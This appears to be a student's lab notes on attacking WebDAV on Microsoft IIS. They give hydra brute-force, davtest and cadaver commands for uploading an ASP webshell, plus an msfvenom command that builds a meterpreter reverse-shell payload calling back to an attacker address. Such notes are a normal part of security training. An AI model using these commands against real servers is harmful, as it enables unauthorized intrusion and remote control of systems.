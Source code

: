 
### Exploit WevDAV running on Microsoft IIS
#webdav
- IIS is a windows webserver. Functions like any web server (eg Apache or Nginx)
- Can be used for static/dynamis webpages
- developed in asp.net and PHP (can be set up to host asp or php web applicaiton)

- WebDav allows web server to function as a file server (like FTP) to allow collaborative editing etc
- Without SSL cert it runs on port 80 else with SSL it runs on 443 (ie http vs https)
- After bruteforcing auth, malicious ASP payload can be uploaded and executed  to create a reverse shell
Tools:
davtest - USed to scan auth and expl webDAV erver
cadaver - file upload/dl on-screen disp etc etc

Lab:
nmap script http-enum to scan the server
hydra to brute force auth in the /webdav/ directory found
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/
```
Davtest to see wat types of files can be uploaded
```bash
davtest -auth bob:password_123321 -url http://10.2.17.124/webdav
```
From the test prev, Txt,Asp and http files can be executed
So
Cadaver used to upload Rev shell
```bash
cadaver http://10.2.123.123/webdav
#enter username and password
#enumerate like a normal ftp server
```
Kali comes with some webshells found at:
ls -al /usr/share/webshells/

- Upload the asp shell found into the webdav server using cadaver
```cadaver
put /usr/share/webshells/asp/webshell.asp
```
Viewing the directory on the browser the webshell should be there for u to open.
Can run code in the box to execute commands on the target system
type c:\\flag.txt

#### Exploit using msf instead
1.msfvenom
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2
LPORT=1234
-f asp > shell.asp
```
Note: 32 bit is usally used as it works for both 32 and 64 bit if u dont know the target servers specification
